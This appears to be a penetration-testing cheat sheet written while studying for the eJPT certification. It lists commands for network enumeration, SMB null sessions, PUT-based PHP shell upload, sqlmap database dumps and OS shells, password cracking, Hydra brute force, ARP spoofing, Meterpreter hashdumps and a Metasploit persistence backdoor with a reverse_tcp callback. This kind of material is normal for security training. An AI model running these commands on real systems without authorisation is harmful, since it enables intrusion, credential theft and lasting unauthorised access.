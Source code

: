 # eJPT notes

## Routing

`ip route add ROUTETO via ROUTEFROM`  


## Enumeration

### whois

`whois site.com`

### Ping sweep

`fping -a -g 10.10.10.0/24 2>/dev/null  
nmap -sn 10.10.10.0/24`

### Nmap

```bash
# OS Detection, no ping
nmap -Pn -O 10.10.10.10

# def scripts, version check
nmap -sC -sV 10.10.10.10

# above + All ports
nmap -sC -sV -p- 10.10.10.10

# UDP version check
nmap -sU -sV 10.10.10.10
```

### SMB/SAMBA

#### nbtscan

```text
nbtscan -A 10.10.10.10
```

![](../.gitbook/assets/image%20%2863%29.png)

#### net view

```text
net view 10.10.10.10
```

#### net use

```c
# c$ - shares in c drive
# admin$ - windows install directory
# ipc$ - inter process use (not viewable on browser)

# using no user/pass login

net use \\10.10.10.10\IPC$ '' /u:''
# The command completed successfully.

net use \\10.10.10.10\ADMIN$ '' /u:
# System error 5 has occurred.

# Access is denied.
```

#### enum

```bash
# enumerate users
enum -U 10.10.10.10

# enumerate password policy
enum -P 10.10.10.10
```

#### nmblookup

```text
nmblookup -A 10.10.10.10
```

#### smbclient

```bash
# no password mode -N
smbclient -L //10.10.10.10 -N
```

## Web Pentesting

### Banner Grabbing

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL for HTTPS services

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

`httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt`

### HTTP Verbs

`GET, POST, HEAD, PUT, DELETE, OPTIONS`

### PUT shells

```bash
wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

### Directory and File Scanning

```bash
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

### Google-fu

```text
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

### SQLMap

```bash
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump

# banner grabbing
sqlmap -u http://10.10.10.10/view.php?id=1 -b

# dump specified database
sqlmap -u http://10.10.10.10/view.php?id=1 --current-db selfie4you --dump


```



## Exploitation

### Unshadow

This prepares a file for use with John the Ripper `unshadow passwd shadow > unshadow`

### John The Ripper

`john -wordlist /path/to/wordlist -users=users.txt hashfile`

### Hydra

```bash
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### SMB / SAMBA

```bash
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

### ARP spoofing

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

### Metasploit

```bash
search x
use x
info
show options
show advanced
```

#### Meterpreter

```bash
background
sessions -l
sessions -i 1
sysinfo
ifconfig
route
getuid
getsystem
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

#### Meterpreter - persistence backdoor

```bash
# persistent backdoor - need meterpreter session
msf > use exploit/windows/local/s4u_persistence
msf (s4u_persistence) > set session 2
#session => 2
msf (s4u_persistence) > set trigger logon
#trigger => logon
msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
msf (s4u_persistence) > set lhost 1.2.3.4
msf (s4u_persistence) > set lport 1234
msf (s4u_persistence) > exploit


msf (s4u_persistence) > use exploit/multi/handler
msf (handler) > set payload windows/meterpreter/reverse_tcp
msf (handler) > exploit

# once victim restarts and logons, we will get a meterpreter shell
```

